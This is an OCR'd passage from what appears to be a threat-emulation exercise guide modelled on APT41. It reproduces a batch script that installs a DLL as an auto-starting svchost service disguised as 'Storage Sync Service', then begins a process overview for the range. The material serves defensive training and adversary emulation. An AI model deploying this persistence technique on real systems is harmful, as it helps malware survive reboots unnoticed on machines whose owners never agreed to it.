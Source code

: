 6. Scripts 
Table 7: Persistence Install Script 
Persistence Install Script 
https://www.fireeye.com/blog/threat-research/2020/03/apt41-initiates-global-intrusion-campaign-using-multipleexploits.html 
 
@echo off 
 
set "WORK_DIR=C:\Windows\System32" 
 
set "DLL_NAME=storesyncsvc.dll" 
 
set "SERVICE_NAME=StorSyncSvc" 
 
set "DISPLAY_NAME=Storage Sync Service" 
 
set "DESCRIPTION=The Storage Sync Service is the top-level resource for File Sync. It creates sync relationships with  multiple storage accounts via multiple sync groups. If this service is stopped or disabled, applications will be unable to  run collectly." 
 
sc stop %SERVICE_NAME% 
 
sc delete %SERVICE_NAME% 
 
mkdir %WORK_DIR% 
 
copy "%~dp0%DLL_NAME%" "%WORK_DIR%" /Y reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v "%SERVICE_NAME%" /t REG_MULTI_SZ /d "% 
SERVICE_NAME%" /f 
 
sc create "%SERVICE_NAME%" binPath= "%SystemRoot%\system32\svchost.exe -k %SERVICE_NAME%" type= share start= auto error= ignore DisplayName= "%DISPLAY_NAME%" 
 
sc failure "%SERVICE_NAME%" reset= 86400 actions= restart/60000/restart/60000/restart/60000 
 
sc description "%SERVICE_NAME%" "%DESCRIPTION%" 
 
reg add "HKLM\SYSTEM\CurrentControlSet\Services\%SERVICE_NAME%\Parameters" /f 
 
reg add "HKLM\SYSTEM\CurrentControlSet\Services\%SERVICE_NAME%\Parameters" /v "ServiceDll" /t REG_EXPAND_SZ /d "% WORK_DIR%\%DLL_NAME%" /f 
 
net start "%SERVICE_NAME%" 
 
7. Process Overview 
 
The following table encompasses the generalized intended sequence of execution and relative timeline of events. This is not an execution log. The execution log, generated after the attack chain is carried out and captured for use, contains more specific details about how and where artifacts can be found and the corresponding timestamps. 
 
NOTICE 
    Event logs are cleared on all domain hosts some time prior to execution to ensure no  	artifacts from range testing persist. 
 
� Timeline: Timeline is estimated as approximate. 
� Actor: Exercise emulated threat actor. Techniques mapped to real-world actors in Real-World Threat Actor TTPs.  
Table 8: Process Overview 

PROCESS OVERVIEW 
